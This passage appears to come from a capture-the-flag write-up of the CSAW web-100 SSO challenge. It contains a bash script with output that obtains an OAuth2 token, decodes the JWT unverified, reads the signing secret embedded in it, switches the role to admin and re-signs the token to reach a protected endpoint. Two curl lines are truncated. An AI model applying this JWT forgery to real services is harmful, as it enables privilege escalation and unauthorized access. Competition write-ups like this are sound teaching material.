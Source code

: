 Output :

```
flag{JsonWebTokensaretheeasieststorage-lessdataoptiononthemarket!theyrelyonsupersecureblockchainlevelencryptionfortheirmethods}
```

To resume all the commands needed to get the flag, you can get all the commands from below or from this [sso_solution.sh](resources/web-100-sso/sso_solution.sh)

```sh
#!/bin/bash

cl_id=1
echo "POST http://web.chal.csaw.io:9000/oauth2/authorize"
auth_key=$(curl --silent 2>&1 -X POST  http://web.chal.csaw.io:9000/oauth2/authorize --data "response_type=code&client_id=${cl_id}&redirect_uri=http://web.chal.csaw.io$
echo "Getting Authorization Code : ${auth_key}"
echo "POST http://web.chal.csaw.io:9000/oauth2/token (using this Authorization Code"
token=$(curl --silent 2>&1 -X POST  http://web.chal.csaw.io:9000/oauth2/token --data "grant_type=authorization_code&code=${auth_key}&client_id=${cl_id}&redirect_uri=ht$
echo "Getting Json Response : ${token}"
jwt=$(echo $token | python -c "import sys, json;data = json.load(sys.stdin);print data['token'];")
echo "Installing PyJWT python2.x library"
pip install PyJWT
echo "Extracting JWT Token : ${jwt}"
jwt_decoded=$(pyjwt decode --no-verify $jwt)
echo "Decoding JWT Token : ${jwt_decoded}"
jwt_decoded_admin=$(echo $jwt_decoded | sed -e 's/user/admin/')
echo "Replacing 'user by 'admin' : ${jwt_decoded_admin}"
secret=$(echo $jwt_decoded_admin | python -c "import sys, json;data = json.load(sys.stdin);print data['secret'];")
echo "Extracting JWT secret for signing while encoding this payload : ${secret}"
jwt_new=$(python -c "import jwt;print jwt.encode(${jwt_decoded_admin}, '${secret}', algorithm='HS256')")
echo "Generating the new JWT Token : ${jwt_new}"
verif=$(pyjwt decode --no-verify $jwt_new)
echo "Verifing the JWT Token content : ${verif}"
echo "GET http://web.chal.csaw.io:9000/protected"
echo "Response :"
curl  http://web.chal.csaw.io:9000/protected -H "Authorization: Bearer ${jwt_new}"
echo ""
```

Output :

```
POST http://web.chal.csaw.io:9000/oauth2/authorize
Getting Authorization Code : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjbGllbnRfaWQiOiIxIiwicmVkaXJlY3RfdXJpIjoiaHR0cDovL3dlYi5jaGFsLmNzYXcuaW86OTAwMC9vYXV0aDIvdG9rZW4iLCJpYXQiOjE1MzcyMjg3ODMsImV4cCI6MTUzNzIyOTM4M30.1w-Wrwz-jY9UWErqy_W8Xra8FUUQdfJttvQLbELY050
POST http://web.chal.csaw.io:9000/oauth2/token (using this Authorization Code
Getting Json Response : {"token_type":"Bearer","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoidXNlciIsInNlY3JldCI6InVmb3VuZG1lISIsImlhdCI6MTUzNzIyODc4MywiZXhwIjoxNTM3MjI5MzgzfQ.Vmt9Fr7MJ3_UxC5Dj8elPAwt6UT0p6CkjgaJa4LdAaI"}
Installing PyJWT python2.x library
Requirement already satisfied: PyJWT in /usr/local/lib/python2.7/dist-packages
Extracting JWT Token : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoidXNlciIsInNlY3JldCI6InVmb3VuZG1lISIsImlhdCI6MTUzNzIyODc4MywiZXhwIjoxNTM3MjI5MzgzfQ.Vmt9Fr7MJ3_UxC5Dj8elPAwt6UT0p6CkjgaJa4LdAaI
Decoding JWT Token : {"iat": 1537228783, "secret": "ufoundme!", "type": "user", "exp": 1537229383}
Replacing 'user by 'admin' : {"iat": 1537228783, "secret": "ufoundme!", "type": "admin", "exp": 1537229383}
Extracting JWT secret for signing while encoding this payload : ufoundme!
Generating the new JWT Token : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpYXQiOjE1MzcyMjg3ODMsInNlY3JldCI6InVmb3VuZG1lISIsInR5cGUiOiJhZG1pbiIsImV4cCI6MTUzNzIyOTM4M30.RCW_UsBuM_0Le-kawO2CNolAFwUS3zYLoQU_2eDCurw
```
